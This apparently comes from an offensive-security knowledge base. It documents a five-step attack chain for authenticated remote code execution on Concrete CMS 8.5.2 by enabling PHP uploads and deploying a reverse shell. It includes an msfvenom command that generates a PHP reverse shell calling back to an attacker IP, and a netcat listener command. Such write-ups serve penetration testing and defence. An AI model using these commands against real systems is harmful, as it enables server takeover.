

---
tags:
  - rce
  - file-upload
  - php
  - concrete-cms
  - reverse-shell
  - authenticated-exploit
type: attack_chain
tools:
  - '[[tools/msfvenom]]'
  - '[[tools/netcat]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/msfvenom-php-reverse-shell]]'
  - '[[commands/nc-tcp-listener]]'
platforms:
  - Web
  - Linux
complexity: medium
procedures:
  - '[[procedures/Login-and-Enable-PHP-File-Uploads]]'
  - '[[procedures/Generate-PHP-Reverse-Shell-Payload]]'
  - '[[procedures/Upload-Malicious-PHP-File]]'
  - '[[procedures/Setup-Reverse-Shell-Listener]]'
  - '[[procedures/Trigger-and-Interact-with-Reverse-Shell]]'
step_count: 5
techniques:
  - '[[Valid Accounts]]'
  - '[[Exploit Public-Facing Application]]'
  - '[[Remote File Copy]]'
description: >-
  An authenticated administrator exploits a misconfiguration in Concrete CMS
  8.5.2 to enable PHP uploads, deploys a reverse shell, and achieves remote code
  execution on the web server.
skill_level: intermediate
impact_level: high
id: a63c4c39-21de-4847-aef9-e067964eebaf
created_at: '2025-12-14T17:24:08.483Z'
updated_at: '2025-12-14T17:24:08.483Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Valid Accounts]]'
  - '[[Exploit Public-Facing Application]]'
  - '[[Remote File Copy]]'
---
# Authenticated RCE in Concrete CMS via PHP File Upload

## Overview

This attack chain exploits a vulnerability in Concrete CMS 8.5.2 where an authenticated administrator can add PHP as an allowed file type in the File Manager settings, bypassing default restrictions on executable uploads. The attacker generates a malicious PHP reverse shell using msfvenom, uploads it via the File Manager, sets up a listener with netcat, and triggers the shell by accessing the uploaded file's URL. This leads to remote code execution, granting full control over the web server and underlying system. The attack requires admin credentials but demonstrates how misconfigurations in content management systems can enable server compromise.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/msfvenom]]
- [[tools/netcat]]

### Target Environment

- Concrete CMS 8.5.2 running on a web server (e.g., Apache with PHP)
- Required services/ports: HTTP/HTTPS on port 80/443 for access; open port 1234 (or chosen port) on attacker's machine for reverse shell
- Network access requirements: Direct access to the CMS dashboard; firewall allowing outbound connections from the server to attacker's IP

### Initial Access Requirements

- Valid admin credentials for Concrete CMS
- Network position: Attacker must be able to reach the CMS login page
- Prior access needed: None beyond authentication

## Detailed Attack Procedures

### Step 1: Authenticate and Enable PHP Uploads
procedure: [[procedures/Login-and-Enable-PHP-File-Uploads]]

**Objective**: Gain admin access and modify file type restrictions to allow PHP uploads.

**Instructions**: Log in to the Concrete CMS dashboard using admin credentials. Navigate to the File Manager settings and add 'php' to the allowed file types list.

**Expected Output**: Successful login and confirmation that PHP is now an allowed extension in settings.

**Success Indicators**:
- Admin dashboard accessible
- PHP extension added and saved without errors

### Step 2: Generate Malicious Payload
procedure: [[procedures/Generate-PHP-Reverse-Shell-Payload]]

**Objective**: Create a PHP reverse shell payload that connects back to the attacker's listener.

**Instructions**: On the attacker's machine, use [[commands/msfvenom-php-reverse-shell]] to generate the shell.php file targeting the attacker's IP and port.

```bash
msfvenom -p php/reverse_php LHOST=192.168.1.1 LPORT=1234 > shell.php
```

**Expected Output**: A shell.php file containing PHP code for the reverse shell.

**Success Indicators**:
- File generated without errors
- Payload code verifiable by inspecting shell.php

### Step 3: Upload the Payload
procedure: [[procedures/Upload-Malicious-PHP-File]]

**Objective**: Upload the generated PHP shell to the vulnerable File Manager.

**Instructions**: Return to the Concrete CMS File Manager and drag-and-drop the shell.php file for upload.

**Expected Output**: Upload progress completes with a green confirmation indicator.

**Success Indicators**:
- File appears in the File Manager list
- No upload restrictions triggered

### Step 4: Prepare Listener
procedure: [[procedures/Setup-Reverse-Shell-Listener]]

**Objective**: Establish a listener on the attacker's machine to receive the incoming shell connection.

**Instructions**: Use [[commands/nc-tcp-listener]] to start a netcat listener on the specified port.

```bash
nc -nlvp 1234
```

**Expected Output**: Listener starts and waits for connections in verbose mode.

**Success Indicators**:
- No port binding errors
- Listener ready and monitoring

### Step 5: Trigger and Gain Control
procedure: [[procedures/Trigger-and-Interact-with-Reverse-Shell]]

**Objective**: Access the uploaded file to execute the payload and interact with the remote shell.

**Instructions**: In the File Manager, click the properties link for shell.php to access its URL, triggering the reverse connection. Interact with the received shell in the netcat session.

**Expected Output**: Netcat receives a connection, providing a command prompt on the remote server.

**Success Indicators**:
- Incoming connection on listener
- Ability to execute commands like 'whoami' or 'id' on the server

## Attack Chain Summary

### Key Achievements

1. Bypassed file upload restrictions using admin privileges
2. Deployed and executed a PHP reverse shell
3. Achieved full remote code execution and system control

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Valid Accounts]]
- [[Exploit Public-Facing Application]]
- [[Remote File Copy]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01*
